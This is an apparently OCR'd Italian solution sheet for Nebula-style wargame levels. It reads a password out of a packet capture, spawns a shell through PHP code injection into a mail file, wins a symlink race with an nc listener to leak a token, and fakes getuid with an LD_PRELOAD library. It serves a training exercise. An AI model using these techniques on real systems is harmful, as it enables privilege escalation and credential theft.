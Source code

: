 ## Flag08 (PCAP)

```bash
tcpflow -C -r /home/flag08/capture.pcap | less
# . = canc
# backd00Rmate
su flag08
```

---

## Flag09 (EMAIL)

```bash
# soluzione 1
./flag09 -h
home/flag09/flag09 -r "system('/bin/sh');"
# soluzione 2
# creare file mail in /tmp con:
	[email {${system($use_me)}}]
./flag09 /tmp/mail /bin/sh
```

---

## Flag10 (TMUX)

```bash
# usare tmux
# nel primo pannello
nc -vlnk 18211 > /tmp/out
# nel secondo pannello (attezione agli spazi)
touch /tmp/faketoken
while :; do ln -fs /tmp/faketoken /tmp/link10 ; ln -fs /home/flag10/token /tmp/link10 ; done
#nel terzo pannello (attezione agli spazi)
while :; do ./flag10 /tmp/link10 127.0.0.1 ; done
```

---

## Level13 (LD_PRELOAD )

```bash
# scrivere il seguente codice nel file getuid.c in /tmp:
 #include <unistd.h>
 #include <sys/types.h>
 uid_t getuid(void) {
	 return 1000;
 }
# compilarlo con
gcc -shared -fPIC -o getuid.so getuid.c
# rimanendo in /tmp
export LD_PRELOAD=./getuid.so
# creare una copia di flag13 per togliere suid ed evitare errore
cp /home/flag13/flag13 /tmp
./level13
# usare la password per loggare come flag13
su flag13
```

---